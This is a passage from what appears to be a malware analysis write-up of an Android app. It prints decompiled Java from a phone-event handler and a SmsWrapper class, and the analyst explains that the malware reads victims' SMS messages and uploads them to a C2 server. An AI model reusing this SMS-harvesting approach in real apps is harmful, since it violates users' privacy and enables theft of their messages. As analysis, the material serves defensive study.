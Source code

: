 ```cs
                super(this, null);
                this.event = "_airplanemodechanged";
            }

            @Override // anywheresoftware.b4a.phone.PhoneEvents.ActionHandler
            public void handle(Intent intent) {
                send(intent, new Object[]{Boolean.valueOf(intent.getBooleanExtra("state", false))});
            }
        });
        for (Map.Entry<String, ActionHandler> entry : this.map.entrySet()) {
            entry.getValue().action = entry.getKey();
        }
    }
```

The last class is `SmsWrapper`, the malware will try to collect SMS from the victim's phone such as `_id, address, type, body, person, date`. Then query this info to upload it to C2 server. 

```cs
@BA.ShortName("SmsMessages")
/* loaded from: classes-dex2jar.jar:anywheresoftware/b4a/phone/SmsWrapper.class */
public class SmsWrapper {
    public static final int TYPE_DRAFT = 3;
    public static final int TYPE_FAILED = 5;
    public static final int TYPE_INBOX = 1;
    public static final int TYPE_OUTBOX = 4;
    public static final int TYPE_QUEUED = 6;
    public static final int TYPE_SENT = 2;
    public static final int TYPE_UNKNOWN = 0;
    private static final String[] projection = {"_id", "thread_id", "address", "read", "type", "body", "person", "date"};

    @BA.ShortName("Sms")
    /* loaded from: classes-dex2jar.jar:anywheresoftware/b4a/phone/SmsWrapper$Sms.class */
    public static class Sms {
        public String Address;
        public String Body;
        public long Date;
        public int Id;
        public int PersonId;
        public boolean Read;
        public int ThreadId;
        public int Type;

        public Sms() {
        }

        public Sms(int i, int i2, int i3, long j, boolean z, int i4, String str, String str2) {
            this.Id = i;
            this.ThreadId = i2;
            this.PersonId = i3;
            this.Date = j;
            this.Read = z;
            this.Type = i4;
            this.Body = str;
            this.Address = str2;
        }

        public String toString() {
            return "Id=" + this.Id + ", ThreadId=" + this.ThreadId + ", PersonId=" + this.PersonId + ", Date=" + this.Date + ", Read=" + this.Read + ", Type=" + this.Type + ", Body=" + this.Body + ", Address=" + this.Address;
        }
```